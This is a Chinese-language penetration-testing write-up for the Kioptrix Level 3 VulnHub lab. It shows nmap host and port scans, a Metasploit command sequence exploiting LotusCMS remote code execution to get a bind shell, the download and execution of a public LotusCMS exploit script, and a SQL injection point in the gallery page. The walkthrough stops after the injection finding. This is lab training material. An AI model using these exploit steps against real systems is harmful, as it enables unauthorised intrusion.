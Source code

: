 # 环境

来自[Kioptrix_Levl_3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

由于解析问题，hosts需要添加`192.168.88.27  kioptrix3.com`才能进行正确访问http://kioptrix3.com/gallery/

![image-20240618220351359](image/image-20240618220351359.png)



# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

确定ip：`192.168.88.27`

![image-20240617210338496](image/image-20240617210338496.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.27
```

确认开发端口22,80

![image-20240617210618515](image/image-20240617210618515.png)

## 服务详情扫描

```bash
sudo nmap -sV -O -p22,80 192.168.88.27
```

首先考虑80端口，apache版本不低，找不到可利用漏洞

![image-20240617210855532](image/image-20240617210855532.png)

## 指纹识别

```

```



# 测试利用

## getshell1

访问80端口，页面如下，很快发现有一个Login功能，进去测试一下

![image-20240617211454685](image/image-20240617211454685.png)

确实是LotusCMS内容管理系统

![image-20240617212114183](image/image-20240617212114183.png)

进行漏扫，发现Metaspoit可利用的RCE，后面的16982.txt都是一下中低危的xss和ssrf，构造起来比较麻烦

![image-20240617215309330](image/image-20240617215309330.png)

启动MSF（这种集成化的工具还是少用，要了解漏洞利用原理)

```bash
msfconsole
search lotuscms
use 0  #或者use exploit/multi/http/lcms_php_exec 
show options  #查看攻击参数
set rhost 192.168.88.27
set rport 80
set uri /
set lhost 192.168.88.10
set lport 4444
set payload generic/shell_bind_tcp
run
```

拿下shell

![image-20240618214117872](image/image-20240618214117872.png)

进行提权

## getshell2

我们不使用msf的漏洞，去google寻找该LotusCMS相关漏洞利用，[github](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh)有相关漏洞利用脚本

```bash
wget https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh
chmod 755 lotusRCE.sh
./lotusRCE.sh
```



## getshell3

在http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos这个目录下我们发现，着存在sql注入

![image-20240618220712424](image/image-20240618220712424.png)

